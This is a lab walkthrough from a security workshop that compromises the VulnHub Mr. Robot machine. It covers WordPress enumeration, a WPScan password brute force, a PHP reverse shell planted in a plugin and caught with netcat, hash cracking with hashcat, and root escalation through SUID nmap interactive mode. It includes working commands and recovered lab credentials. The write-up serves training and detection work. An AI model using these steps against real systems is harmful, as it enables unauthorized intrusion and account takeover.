









<!--
pandoc README.md -o Toni_Peraira_Workshop_04_Brute_Force.pdf --from markdown --template eisvogel --listings --pdf-engine=xelatex
-->

# Workshop 4 - Brute Force


In this workshop you will do a brute force and reverse shell attack on the web of a Linux machine and you will get *root* permissions. The victim is an extreme machine from VulnHub (MrRobot) on he
Install a Wazuh agent and send events and alerts to our Wazuh *manager*. After carry out the attack, it is a report of the alerts and/or events collected at Wazuh.

---

Machines:

* Victim: 192.168.1.93

* Wazuh manager: 192.168.1.80

* Attacker: 192.168.1.224

---

Attack:

Find out which ports are open:



Since Port 80 is open, visit the web content to see what's there.

We find a very cool website that emulates a terminal used in Mr. Robot.



We can find folders and files used in popular web applications with *http-enum* script of *nmap*.



```
$ nmap -sV --script=http-enum 192.168.1.93
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-25 17:37 CET
Nmap scan report for 192.168.1.93
Host is up (0.014s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.28
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.28
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.71 seconds
```

From the files found we can deduce that it's a website based on WordPress, from all the files with the *wp* prefix.


A very good tool to exploit WordPress vulnerabilites is ***WPScan***, which can be used as follows in order to get passwords:



```
└──╼ $wpscan --url http://192.168.1.93 -U 'admin' -P /usr/share/wordlists/dirb/others/best1050.txt --password-attack wp-login
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________


Scan Aborted: The url supplied 'http://192.168.1.93/' seems to be down (Timeout was reached)
```

We have tried to exploit the password of the admin user with the wordlist used in the previous exercise, but it has not been possible.

As we are all big fans of the Mr. Robot, we will try to do the same but with usernames that are related to the series. We use usernames that have to do with the protagonist, Elliot Alderson.

```
$ wpscan --url http://192.168.1.83 -U 'elliot, ELLIOT, alderson, ALDERSON, robot' -P /usr/share/wordlists/dirb/others/best1050.txt --password-attack wp-login
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.83/ [192.168.1.83]
[+] Started: Fri Mar 25 18:00:48 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.1.83/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.83/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.1.83/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.83/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.28 identified (Latest, released on 2022-03-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.83/50b352e.html, Match: '-release.min.js?ver=4.3.28'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.83/50b352e.html, Match: 'WordPress 4.3.28'

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.1.83/wp-content/themes/twentyfifteen/
 | Latest Version: 3.1
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://192.168.1.83/wp-content/themes/twentyfifteen/readme.txt
 | Style URL: http://192.168.1.83/wp-content/themes/twentyfifteen/style.css?ver=4.3.28
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | The version could not be determined.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 5 user/s
[SUCCESS] -  ELLIOT / qosqomanta                                                                                                                              
[SUCCESS] - elliot / qosqomanta                                                                                                                               
Trying  robot / zzzzzz Time: 00:00:48 <========================================================                          > (4683 / 6781) 69.06%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username:  ELLIOT, Password: qosqomanta
 | Username: elliot, Password: qosqomanta

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Mar 25 18:01:42 2022
[+] Requests Done: 4854
[+] Cached Requests: 6
[+] Data Sent: 1.572 MB
[+] Data Received: 18.82 MB
[+] Memory used: 270.32 MB
[+] Elapsed time: 00:00:54
```

Voilà! In the scan report we can find the password for the user *elliot*:

>Username:  ELLIOT, Password: qosqomanta

---

As we all know, WordPress has countless vulnerabilities, most of them due to plugins. We will go to see if there are any plugins that we can exploit.



We choose the *Hello Dolly* plugin.

Here we will add to the code that will make a reverse shell, we can copy the code from the following:

[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

We change the first lines with the attacker IP and the port where we will hearing with Netcat:



We listen with Netcat:

```
└──╼ $nc -lnvp 6666
listening on [any] 6666 ...
connect to [192.168.1.224] from (UNKNOWN) [192.168.1.240] 34411
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 17:56:00 up 13 min,  1 user,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
montiliv tty1                      17:44   11:21   0.02s  0.00s -bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

Now that we are listening we update the edited file with the exploit and we are in:



Let's get some system information to see if we can escalate privileges.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
montilivi:x:0:0::/home/montilivi:
ossec:x:104:108::/var/ossec:/bin/false
```

```
$ ls /home/robot
key-2-of-3.txt
password.raw-md5
```

It seems that we have found a MD5 hash of the password for the *robot* user, this seems very interesting and strange

```
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's try to crack this hash using ***hashcat***. First we save the hash in a file:

```
└──╼ $cat /home/tonipm/hash 
c3fcd3d76192e4007dfb496cca67e13b
```

We use the file with the hash with the hashcat:

```
└──╼ $hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-3632QM CPU @ 2.20GHz, 13715/13779 MB (4096 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 66 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Fri Mar 25 19:33:50 2022 (0 secs)
Time.Estimated...: Fri Mar 25 19:33:50 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   279.9 kH/s (0.70ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 32768/14344385 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: dyesebel -> loserface1

Started: Fri Mar 25 19:32:57 2022
Stopped: Fri Mar 25 19:33:51 2022
```

It has been easy to find the password behind the hash, just 1 minute:

>c3fcd3d76192e4007dfb496cca67e13b:**abcdefghijklmnopqrstuvwxyz**

If we try to change user, we will see that we do not have privileges but we can do it if we generate a console. Let's open a console with Python and paste the obtained password:



```
$ su robot
su: must be run from a terminal
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

Now we search for files with SUID permissions, those with the *s* bit enabled. This property is
necessary for normal users to perform tasks that require more privileges:

```
robot@linux:~$ find /* -user root -perm -4000 -print 2> /dev/null
find /* -user root -perm -4000 -print 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ 
```

From this list we will choose */usr/local/bin/nmap*, we can see the *s* in *-rw**s**r-xr-x*:

```
robot@linux:~$ ls -ls /usr/local/bin/nmap
ls -ls /usr/local/bin/nmap
496 -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```

This nmap is an older version, nmap 3.81 when the current version is 7.92, that allows *interactive mode*, we can check it out running it without any parameters.

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

As nmap has been run with *sudo* privileges we can run a shell with privileges.



```
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

Finally we have a shell with privileges! Now we can do all the bad things we want.